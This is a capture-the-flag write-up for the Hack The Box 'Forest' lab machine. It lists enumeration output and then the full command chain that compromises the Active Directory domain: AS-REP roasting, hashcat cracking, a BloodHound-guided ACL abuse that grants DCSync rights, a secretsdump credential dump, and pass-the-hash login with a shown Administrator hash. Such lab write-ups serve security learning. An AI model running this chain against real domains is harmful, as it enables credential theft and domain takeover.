





# Forest
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.161 -T4
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-26 16:32 BST
Nmap scan report for 10.10.10.161 (10.10.10.161)
Host is up (0.15s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-06-26 15:39:16Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h26m18s, deviation: 4h02m30s, median: 6m17s
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-06-26T15:39:27
|_  start_date: 2023-06-26T14:24:16
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: 
FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2023-06-26T08:39:24-07:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.94 seconds

```
- Dns
  - No results with zone transfer


- Nothing on `smb`
- Let's use the following post:
  - https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb/rpcclient-enumeration 
  - https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/





## Foothold/User
- We got the following users
```
Administrator
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

- Let's start with `AS-REP Roasting`
  - `impacket-GetNPUsers htb/ -dc-ip 10.10.10.161 -usersfile user.list -format hashcat -no-pass `


- We got hash
  - Let's crack it: `hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt`


- Let's connect
  - `evil-winrm -u 'svc-alfresco' -p 's3rvice' -i 10.10.10.161`

 

## Root
- Let's enumerate domain using `bloodhound`
  - I ran python version of the tool from the attack box: `bloodhound-python -u 'svc-alfresco' -p 's3rvice' -d htb.local -dc forest.htb.local -ns 10.10.10.161 -c all --zip`
  - You can upload `Sharphound` to the box and run it to get the same results
  - Start `neo4j`
    - `sudo neo4j start`
  - Launch `bloodhound`:
    - `bloodhound`
  - And import `zip` file 

 
 

- `svc-alfresco` is a member of `Service Accounts`, which is a member of `Privileged IT Accounts`, which is a member of `Account Operators`, 
  - Thus `svc-alfresco` is a member of `Account Operators`. 
  - While Account Operators has `Generic All` privilege on the `Exchange Windows Permissions` group.
  - According to the [post](https://duo.com/decipher/microsoft-exchange-users-get-admin-rights-in-privilege-escalation-attack):
    - `The Exchange Windows Permissions group has WriteDacl access on the Domain object in Active Directory, which means any member of the group can modify the domain privileges, such as the ability to perform DCSync, or synchronization operations by Domain Controllers.`
  - So we can perform `dcsync` attack
    - `$pass = ConvertTo-SecureString "Password123" -AsPlainText -Force`
    - `New-ADUser pentest -AccountPassword $pass -Enabled $True`
    - `Add-ADGroupMember -Identity "Exchange Windows Permissions" -members pentest`
    - `$cred = New-Object system.management.automation.pscredential('htb\pentest', $pass)`
    - `Add-ObjectACL -PrincipalIdentity pentest -Credential $cred -Rights DCSync`
  - We need to perform these commands one by one
  - And then perform `dcsync`
    - `impacket-secretsdump htb.local/pentest:Password123@10.10.10.161 -just-dc`

 
 

- Connect using Administrator's hash
  - `impacket-psexec htb.local/administrator@10.10.10.161 -hashes 'aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6'`

 
